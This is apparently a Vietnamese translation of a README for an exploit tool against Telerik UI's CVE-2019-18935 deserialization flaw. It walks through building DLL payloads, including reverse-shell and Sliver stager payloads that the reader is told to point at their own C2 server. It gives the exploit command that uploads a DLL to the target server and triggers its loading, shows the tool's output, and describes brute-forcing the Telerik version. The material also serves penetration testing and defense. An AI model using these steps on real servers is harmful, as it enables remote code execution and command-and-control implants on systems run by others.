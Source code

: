 Một số trọng tải (ví dụ: `reverse-shell.c` và` sliver-stager.c`) yêu cầu bạn đặt các trường `HOST` và` PORT` để trỏ đến máy chủ C2 của bạn — hãy đảm bảo làm điều đó!

Trong môi trường Windows có cài đặt Visual Studio, hãy sử dụng `build-dll.bat` để tạo các tệp DLL lắp ráp chế độ hỗn hợp 32 và 64 bit để được sử dụng làm trọng tải trong quá trình giải mã. Bạn có thể tùy chọn chỉ định kiến trúc CPU mục tiêu làm đối số CLI thứ hai (ví dụ: `x86`).

```vbscript
build-dll.bat sleep.c
```

## Tải trọng tải lên mục tiêu và tải trọng tải vào ứng dụng

Chuyển DLL được tạo ở trên vào `CVE-2019-18935.py`, tệp này sẽ tải DLL lên một thư mục trên máy chủ đích (với điều kiện là máy chủ web có quyền ghi trong thư mục đó) và sau đó tải DLL đó vào ứng dụng qua khai thác không an toàn

```powershell
$ python3 CVE-2019-18935.py -v <VERSION> -p payloads/sleep-2019121205271355-x86.dll -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau
[*] Local payload name:  sleep-2019121205271355-x86.dll
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1576142987.918625.dll

{'fileInfo': {'ContentLength': 75264,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1576142987.918625.dll',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=<VERSION>, '
                                     'Culture=neutral, '
                                     'PublicKeyToken=<TOKEN>',
              'TempFileName': '1576142987.918625.dll'}}

[*] Triggering deserialization...

<title>Runtime Error</title>
<span><H1>Server Error in '/' Application.<hr width=100% size=1 color=silver></H1>
<h2> <i>Runtime Error</i> </h2></span>
...omitted for brevity...

[*] Response time: 13.01 seconds
```

Trong ví dụ trên, ứng dụng mất ít nhất 10 giây để phản hồi, cho biết rằng trọng tải DLL đã gọi thành công `Sleep (10000)` 

## Brute-force Telerik UI version

Như đã nêu chi tiết trong bài nói chuyện DerpCon [.NET Roulette (39:46)](https://youtu.be/--6PiuvBGAU?t=2386), tác giả có thể ép buộc phiên bản Telerik UI bằng cách chỉ chỉ định phiên bản _major_ của hợp ngữ `Telerik.Web.UI` (tức là phần` 2017` của chuỗi phiên bản đầy đủ `2017.2.503.40`) khi tải tệp lên. Kỹ thuật này làm giảm đáng kể không gian tìm kiếm khi so sánh với việc ép buộc từng bản phát hành cụ thể của phần mềm này — và, như một lợi ích bổ sung, nó thậm chí có thể phát hiện các phiên bản không được liệt kê rõ ràng trong [lịch sử phát hành](https://www.telerik.com/support/whats-new/spnet-ajax/release-history) cho phần mềm này. Tìm hiểu thêm về lập phiên bản hợp ngữ .NET trên [MSDN](https://docs.microsoft.com/en-us/dotnet/api/system.version#remarks).
